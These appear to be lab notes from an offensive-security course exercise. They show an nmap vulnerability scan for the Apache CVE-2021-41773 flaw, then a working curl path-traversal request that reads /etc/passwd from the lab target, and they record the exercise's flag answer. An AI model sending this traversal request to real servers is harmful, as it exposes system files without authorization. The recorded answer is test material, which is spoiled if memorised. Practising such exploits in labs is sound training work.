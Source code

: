 1. **Capstone Labs**: Follow the steps above to perform the vulnerability scan with the custom NSE script on VM #1. Copy the link from the script output after _Verify arbitrary file read:_ and use it as a parameter for curl. This will retrieve the content of **/etc/passwd** of the target machine and display it. Be aware that you need to use _http_ instead of _https_ while keeping port 443 when you paste the link. Embed the last username of the file in the braces of "OS{}" and provide it as the answer to this exercise.

```bash
sudo nmap -sV -p 443 --script "http-vuln-cve2021-41773" 192.168.221.13
```
![[Pasted image 20250304191611.png]]

```bash
# https://192.168.221.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
curl http://192.168.221.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd 
```
![[Pasted image 20250304191811.png]]

Last username: 72f56de6061244fbef7b0efc2ca6e5ca
![[Pasted image 20250304191852.png]]
